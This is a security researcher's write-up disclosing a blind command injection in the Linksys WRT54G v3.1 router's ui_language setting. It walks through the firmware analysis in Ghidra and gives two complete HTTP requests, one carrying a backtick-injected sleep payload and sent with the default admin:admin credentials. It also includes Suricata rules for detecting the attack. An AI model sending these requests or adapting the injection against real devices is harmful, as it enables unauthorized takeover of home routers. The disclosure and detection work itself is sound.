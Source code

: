 ```yaml
---
layout: post
title:  "Linksys WRT54G - v3.1"
date:   2020-03-24 00:00:00 -0600
categories: linksys firmware wrt54g exploit command-injection
author: Nicholas Starke
---
```


This write up will go over how I found an exploited a command injection vulnerability in a `Linksys WRT54G` Small Office / Home Office router.

I downloaded the firmware for `Linksys WRT54G` version `3.1` from here:

[https://downloads.linksys.com/downloads/firmware/1224638367382/FW_WRT54Gv4_4.21.5.000_20120220.bin](https://downloads.linksys.com/downloads/firmware/1224638367382/FW_WRT54Gv4_4.21.5.000_20120220.bin)

Note that this firmware file is from 2012. According to [this link](https://www.linksys.com/us/support-article?articleNum=291978), the end of life (EOL) date for this device was:

>Prior to 2012

Since this device has been EOL'd for **at least** eight years (if not more), I am publishing this write up without reaching out to the vendor since it is unlikely to be patched at this point.  If you are still using this equipment, valid countermeasures to protect aginst this vulnerability include changing the default credentials for your router. Suricata rules are also included at the bottom of this write up.

## Hunting for Command Injection

Next I extracted the squashfs filesystem from the `FW_WRT54Gv4_4.21.5.000_20120220.bin` file using `binwalk -eM FW_WRT54Gv4_4.21.5.000_20120220.bin`.

Before I begin command injection testing, I want to know whether or not the `telnetd` or `utelnetd` binaries exist on the firmware filesystem, so I do a quick `find . -iname "*telnet*"`.  I don't find any results, so I will have to fall back to the `/bin/sleep` methodology for command injection testing. This methodology focuses on timing differences when a `sleep` sub-command is injected into a call to `system`.

Opening up `/usr/sbin/httpd` in Ghidra, we can start to look for command injection vulnerabilities. I start with the `system` function and viewing all instances of this function in the binary:

!["System Calls"](/images/0034-system-calls.png "System Calls")

The first few calls are located in a function called `do_upgrade_post`, which by reading through it we can infer that this is the function that handles the configuration restore feature at the url path `/restore.cgi`.  

!["Command Injection"](/images/0034-command-injection.png "Command Injection")

The following code is particularly interesting:

```c++
puVar7 = (undefined *)nvram_get("ui_language");
uVar8 = 0;
if (puVar7 == (undefined *)0x0) {
  puVar7 = &DAT_0047a2b8;
}
snprintf(acStack88,0x40,"cp /www/%s_lang_pack/captmp.js /tmp/.",puVar7);
system(acStack88);
```

In other words, if we can control the value of the NVRAM parameter `ui_language`, we can exploit this vulnerability.

It turns out we can control this value without any filtering happening on the server.  The following HTTP request demonstrates setting a malicious value for `ui_language` and 'primes' the vulnerability:

```http
POST http://192.168.1.1/apply.cgi HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 682
Authorization: Basic YWRtaW46YWRtaW4=
Referer: http://192.168.1.1/apply.cgi
Host: 192.168.1.1

submit_button=index&change_action=gozila_cgi&submit_type=language&action=&now_proto=dhcp&daylight_time=0&lan_ipaddr=4&wait_time=0&need_reboot=0&ui_language=%60%2fbin%2fsleep%24%7BIFS%7D23%60&wan_proto=dhcp&router_name=asdf&wan_hostname=&wan_domain=&mtu_enable=0&lan_ipaddr_0=192&lan_ipaddr_1=168&lan_ipaddr_2=1&lan_ipaddr_3=1&lan_netmask=255.255.255.0&lan_proto=dhcp&dhcp_check=&dhcp_start=100&dhcp_num=50&dhcp_lease=0&wan_dns=4&wan_dns0_0=0&wan_dns0_1=0&wan_dns0_2=0&wan_dns0_3=0&wan_dns1_0=0&wan_dns1_1=0&wan_dns1_2=0&wan_dns1_3=0&wan_dns2_0=0&wan_dns2_1=0&wan_dns2_2=0&wan_dns2_3=0&wan_wins=4&wan_wins_0=0&wan_wins_1=0&wan_wins_2=0&wan_wins_3=0&time_zone=-08+1+1&_daylight_time=1
```

The value we have chosen is:
```bash
`/bin/sleep${IFS}23`
```

If invoked in the target `system` function, it will cause the system to sleep for 23 seconds before continuing processing the request and eventually responding.

If we run the prime request and immediately follow it with an exploit request, we can achieve command injection.  The exploit request is:

```http
POST http://192.168.1.1/restore.cgi HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Content-Type: multipart/form-data; boundary=---------------------------169284500162711627955704791
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 362
Referer: http://192.168.1.1/Backup_Restore.asp
Host: 192.168.1.1

-----------------------------169284500162711627955704791
Content-Disposition: form-data; name="submit_button"

Backup_Restore
-----------------------------169284500162711627955704791
Content-Disposition: form-data; name="restore"; filename="WRT54GV2_v4.21.5.cfg"
Content-Type: application/octet-stream

-----------------------------169284500162711627955704791--
```

Pay attention to the length of time it takes for this request to complete.  The request normally takes 5-6 seconds to complete; if you run the 'prime' request first, that length of time will extend past 23 seconds to between 28-30 seconds.  This is because `sleep 23` is being passed along to the `system` function and the kernel is subsequently waiting 23 seconds to resume processing.

## Analysis
Both requests are authenticated and the exploit requires two web requests.  In reality, this is probably not a very practical exploit.  Even if the default credentials are set at `admin:admin` and you can make the two web requests, there is no easy way to gain an interactive shell since the prerequisite binaries for the telnet daemon are not present.  Also since this command injection does not return any output ("blind" command injection), it is not useful for retrieving data from the device.  One could conceivably compile their own busybox `telnetd` binary and retrieve it over HTTP using `wget` (which is installed in the firmware at `/usr/bin/wget`).  Keep in mind the `ui_language` parameter expects no space characters, and the command injection seems to fail if any space characters are present in the payload.  Use `${IFS}` in place of spaces.

## Suricata Rules to Protect Yourself

### Suricata 5.0

```
alert http any any -> $HOME_NET any (msg:"ET EXPLOIT Linksys WRT54G Version 3.1 Command Injection Attempt"; flow:established,to_server; http.method; content:"POST"; http.header; content:"Authorization|3a 20|Basic|20|"; http.uri; content:"/apply.cgi"; startswith; http.request_body; content:"change_action=gozila_cgi"; fast_pattern; content:"submit_type=language"; content:"&ui_language="; pcre:"/^[(?:\x60|%60)(?:\x27|%27)]/R"; classtype:attempted-admin; sid:1; rev:1;) 
```

### Suricata 4.0

``` 
alert http any any -> $HOME_NET any (msg:"ET EXPLOIT Linksys WRT54G Version 3.1 Command Injection Attempt"; flow:established,to_server; content:"POST"; http_method; content:"Authorization|3a 20|Basic|20|"; http_header; content:"/apply.cgi"; http_uri; depth:10; content:"change_action=gozila_cgi"; http_client_body; fast_pattern; content:"submit_type=language"; http_client_body; content:"&ui_language="; http_client_body; pcre:"/^[(?:\x60|%60)(?:\x27|%27)]/PR"; classtype:attempted-admin; sid:1; rev:1;)
```

Thanks to [@zoomequipd](https://twitter.com/zoomequipd) for the rules.
